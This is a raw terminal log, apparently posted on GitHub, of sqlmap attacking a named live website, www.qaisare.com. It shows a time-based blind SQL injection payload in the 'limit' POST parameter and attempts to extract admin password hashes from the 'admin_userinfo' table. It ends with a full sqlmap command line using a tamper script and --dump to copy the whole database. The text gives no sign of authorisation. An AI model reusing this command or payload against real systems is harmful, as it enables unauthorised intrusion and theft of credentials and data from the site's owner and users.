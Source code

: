 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 17:06:20

[17:06:20] [INFO] loading tamper module 'between'
[17:06:20] [INFO] resuming back-end DBMS 'mysql' 
[17:06:20] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(100000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[17:06:20] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[17:06:20] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[17:06:20] [INFO] fetching entries of column(s) 'user_pwd' for table 'admin_userinfo' in database 'qaisare_com'
[17:06:20] [INFO] fetching number of column(s) 'user_pwd' entries for table 'admin_userinfo' in database 'qaisare_com'
[17:06:20] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[17:06:28] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[17:06:29] [WARNING] unable to retrieve the number of column(s) 'user_pwd' entries for table 'admin_userinfo' in database 'qaisare_com'
[17:06:29] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 17:06:29

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 17:17:49

[17:17:49] [INFO] loading tamper module 'between'
[17:17:49] [INFO] resuming back-end DBMS 'mysql' 
[17:17:49] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[17:17:49] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[17:17:49] [INFO] the back-end DBMS is MySQL